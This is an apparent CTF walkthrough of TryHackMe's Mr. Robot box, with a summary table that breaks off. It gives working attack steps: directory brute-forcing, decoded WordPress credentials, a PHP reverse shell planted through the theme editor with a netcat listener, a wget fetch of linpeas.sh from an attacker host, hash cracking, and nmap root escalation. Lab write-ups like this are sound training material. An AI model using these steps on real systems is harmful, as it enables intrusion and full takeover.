# Mr. Robot CTF — TryHackMe Walkthrough

[](https://tryhackme.com/room/mrrobot)
[]()
[]()

A complete walkthrough of the **Mr. Robot** machine on TryHackMe — a beginner/intermediate boot2root box themed after the TV show, with three hidden flags to capture: enumeration, WordPress exploitation, and Linux privilege escalation.

**Room:** https://tryhackme.com/room/mrrobot
**Target:** `10.128.158.213`
**Credit:** Machine created by [Leon Johnson](https://twitter.com/@sho_luv), used here with permission.

---

## Overview

| Flag | Technique |
|------|-----------|
| Key 1 | Directory brute-forcing, `robots.txt` disclosure |
| Key 2 | WordPress credential discovery, theme-editor reverse shell, password cracking |
| Key 3 | Linux privilege escalation via `linpeas.sh` and GTFOBins (`nmap`) |

**Tools used:** Gobuster, CyberChef, Netcat, LinPEAS, GTFOBins, CrackStation, WordPress Theme Editor

---

## Key 1 — Initial Enumeration



An initial scan showed three open ports:

- `22` — SSH
- `80` — HTTP
- `443` — HTTPS

Opening the site in a browser revealed the standard landing page:



Checking `/robots.txt` directly returned a readable file referencing `fsociety.dic` — a wordlist worth keeping for later:



The same path was also surfaced by directory brute-forcing with **Gobuster**:

```bash
gobuster dir -u http://<ip> \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -t 100 -q -o scans/gobuster-small.txt
```



A `robots.txt` serving a 200 response on a fresh target is worth a closer look — it often hints at what the admin wants hidden. Replacing `/robots.txt` with the path **`key-1-of-3.txt`** returned the first flag:




---

## Key 2 — WordPress Exploitation

The Gobuster scan also revealed a `/wp-login` endpoint, confirming the site runs WordPress — which opens up the usual enumeration paths. Checking `/license`:



Scrolling down surfaced a base64-encoded string:



Decoding `ZWxsaW90OkVSMjgtMDY1Mgo=` in CyberChef gave `elliot:ER28-0652` — a likely username:password pair:



Using those credentials on `/wp-login`:

- **Username:** `elliot`
- **Password:** `ER28-0652`




With access to the WordPress dashboard, the theme editor (**Appearance → Editor → `content-page.php`**) allows direct PHP execution — a classic path to a reverse shell:



Set up a listener:

```bash
rlwrap nc -lvnp 53
```

Then paste in the [pentestmonkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), updating the IP and port to match the listener:





Triggering the shell by requesting the modified template:

```
http://10.128.158.213/wp-content/themes/twentyfifteen/content-page.php
```



The initial shell is unstable — `Ctrl+C` kills the whole session — so it's upgraded to a proper TTY:



```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

Inside `/home/robot`, a password hash was waiting:

```bash
cd /home/robot
cat password.raw-md5
```




```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Cracking the MD5 hash via [CrackStation](https://crackstation.net/) recovered the plaintext:



```
abcdefghijklmnopqrstuvwxyz
```

Switching to the `robot` user:

```bash
su robot
# password: abcdefghijklmnopqrstuvwxyz
```



The new shell needed the same TTY upgrade:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```





---

## Key 3 — Privilege Escalation

With a foothold as `robot`, the next step is hunting for a privilege escalation path using **LinPEAS**.

Start a local HTTP server on the attacking machine and fetch `linpeas.sh` onto the target:

```bash
# on attacker (from the PEASS-ng tools directory)
sudo apt install peass

# on target, in /tmp
wget http://192.168.130.34/linpeas.sh
```






The downloaded script needed execute permissions:

```bash
chmod +x linpeas.sh
./linpeas.sh
```




LinPEAS flagged `nmap` under **"Files with Interesting Permissions"** — a binary with an exploitable capability/permission. A quick check on [GTFOBins](https://gtfobins.org/) confirmed the escalation path for `nmap`:





```bash
nmap --interactive
!sh
```



With a root shell, the final flag was waiting in `/root`:

```bash
cd /root
cat key-3-of-3.txt
```




---

## Summary

| Stage | Skill demonstrated |
|-------|---------------------|
| Recon | Port scanning, directory brute-forcing with Gobuster |
